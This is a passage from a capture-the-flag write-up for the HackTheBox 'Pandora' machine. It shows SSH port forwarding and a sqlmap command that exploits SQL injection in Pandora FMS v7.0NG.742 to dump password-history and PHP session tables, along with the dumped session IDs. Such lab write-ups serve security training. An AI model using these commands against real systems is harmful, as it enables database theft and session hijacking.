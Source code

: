 ### matt

Running linpeas show the following interesting results.

![](5.png)

There is a web app running on local host with the server name `pandora.panda.htb`.

### Tunneling

Let's do a local port forward so that we can access the webapp.

```bash
ssh -L 8000:127.0.0.1:80 daniel@10.10.11.136
```

We set `pandora.panda.htb` to 127.0.0.1 in `/etc/hosts`.

Now we navigate to the web page at:

```text
http://pandora.panda.htb:8000
```

![](6.png)

We got redirected to `/pandora_console` to log in.

At the bottom of the page we see pandora running on version `v7.0NG.742_FIX_PERL2020`.

After some research we find that this version is vulnerable a sql injection vulnerability at `/pandora_console/include/chart_generator.php?session_id=1`.

After enumerating the databases and tables, we find a table called `tpassword_history` what we dump with the following command:

```bash
sqlmap -u 'http://pandora.panda.htb:8000/pandora_console/include/chart_generator.php?session_id=1' --batch -D pandora -T tpassword_history --dump
```

![](7.png)

We found two md5 hashes but couldn't crack them.

Another table that could be of interest for us is `tsessions_php` so let's dump it.

```bash
+----------------------------+-----------------------------------------------------+-------------+                                                   [18/1085]
| id_session                 | data                                                | last_active |
+----------------------------+-----------------------------------------------------+-------------+
| 09vao3q1dikuoi1vhcvhcjjbc6 | id_usuario|s:6:"daniel";                            | 1638783555  |
| 0ahul7feb1l9db7ffp8d25sjba | NULL                                                | 1638789018  |
| 1um23if7s531kqf5da14kf5lvm | NULL                                                | 1638792211  |
| 2e25c62vc3odbppmg6pjbf9bum | NULL                                                | 1638786129  |
| 346uqacafar8pipuppubqet7ut | id_usuario|s:6:"daniel";                            | 1638540332  |
| 3me2jjab4atfa5f8106iklh4fc | NULL                                                | 1638795380  |
| 4f51mju7kcuonuqor3876n8o02 | NULL                                                | 1638786842  |
| 4nsbidcmgfoh1gilpv8p5hpi2s | id_usuario|s:6:"daniel";                            | 1638535373  |
| 59qae699l0971h13qmbpqahlls | NULL                                                | 1638787305  |
| 5fihkihbip2jioll1a8mcsmp6j | NULL                                                | 1638792685  |                                                           
| 5i352tsdh7vlohth30ve4o0air | id_usuario|s:6:"daniel";                            | 1638281946  |                   
| 69gbnjrc2q42e8aqahb1l2s68n | id_usuario|s:6:"daniel";                            | 1641195617  |
| 6avr0giktbhha49mrli14oti15 | id_usuario|s:6:"daniel";                            | 1678786616  |
| 81f3uet7p3esgiq02d4cjj48rc | NULL                                                | 1623957150  |
| 8m2e6h8gmphj79r9pq497vpdre | id_usuario|s:6:"daniel";                            | 1638446321  |
| 8upeameujo9nhki3ps0fu32cgd | NULL                                                | 1638787267  |
```